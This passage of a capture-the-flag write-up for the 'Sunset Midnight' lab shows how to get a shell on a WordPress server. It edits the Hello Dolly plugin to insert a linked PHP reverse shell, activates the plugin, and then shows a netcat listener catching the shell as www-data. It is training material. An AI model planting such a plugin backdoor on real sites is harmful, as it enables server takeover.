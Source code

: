 # Exploitation

---

Authenticate to the Wordpress site with the credentials _admin:password_ that we set in the MySQL section above.

Navigate to the _plugin editor_

![plugin_editor](../../../assets/images/ctfs/proving_grounds/sunset_midnight/plugin_editor.png)

Select the _Hello Dolly_ plugin to edit.

![hello_dolly](../../../assets/images/ctfs/proving_grounds/sunset_midnight/hello_dolly.png)

Insert the Pentest Monkey's PHP reverse shell script into the _hello.php_ file just after the commented out text.

Make sure to delete the PHP tags from the PHP reverse shells script being inserted into the _hello.php_ file.

[PHP reverse shell raw code](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

![hello_edit](../../../assets/images/ctfs/proving_grounds/sunset_midnight/hello_edit.png)

![update_file](../../../assets/images/ctfs/proving_grounds/sunset_midnight/update_file.png)

Navigate to the installed plugins menu.

![installed_plugins](../../../assets/images/ctfs/proving_grounds/sunset_midnight/installed_plugins.png)

Activate the _Hello Dolly_ plugin.

![activate](../../../assets/images/ctfs/proving_grounds/sunset_midnight/activate.png)

Receive a reverse shell on our netcat listener.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/sunsetmidnight]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.243.88] 45046
Linux midnight 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64 GNU/Linux
 21:54:35 up  1:18,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# Post-Exploitation

---